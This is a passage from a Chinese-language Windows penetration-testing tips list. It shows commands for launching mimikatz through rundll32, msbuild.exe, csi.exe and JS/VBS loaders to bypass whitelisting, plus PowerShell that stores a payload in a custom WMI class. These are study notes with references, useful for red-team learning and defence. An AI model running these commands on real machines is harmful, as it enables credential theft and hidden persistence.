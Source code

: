 将mimikatz封装到dll中，通过regsvr32传入参数运行mimkatz

```
rundll32 katz.dll,EntryPoint log coffee exit  
```

参考：

《Code Execution of Regsvr32.exe》

#### 方法4：通过msbuild.exe

下载xml文件，保存为a.xml：

https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20mimikatz.xml

cmd：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe executes a.xml
```

参考：

[《Use MSBuild To Do More》](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)

#### 方法5：通过csi.exe

```
"C:\Program Files (x86)\MSBuild\14.0\Bin\csi.exe" c:\test\katz.csx
```

参考：

[《Study Notes Weekly No.4(Use tracker to load dll & Use csi to bypass UMCI & Execute C# from XSLT file)》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-Weekly-No.4(Use-tracker-to-load-dll-&-Use-csi-to-bypass-UMCI-&-Execute-C-from-XSLT-file)/)

#### 方法6：通过js/vbs脚本

https://gist.github.com/subTee/5c636b8736530fb20c3d

https://gist.github.com/subTee/b30e0bcc7645c790fcd993cfd0ad622f

参考：

[《利用JS加载.Net程序》](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8JS%E5%8A%A0%E8%BD%BD.Net%E7%A8%8B%E5%BA%8F/)

---

### Tips 26. Windows系统中可供存储和读取payload的位置

#### 方法1：WMI

存储：

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Command'
$StaticClass.Put()
$StaticClass.Properties.Add('Command' , $Payload)
$StaticClass.Put() 
```

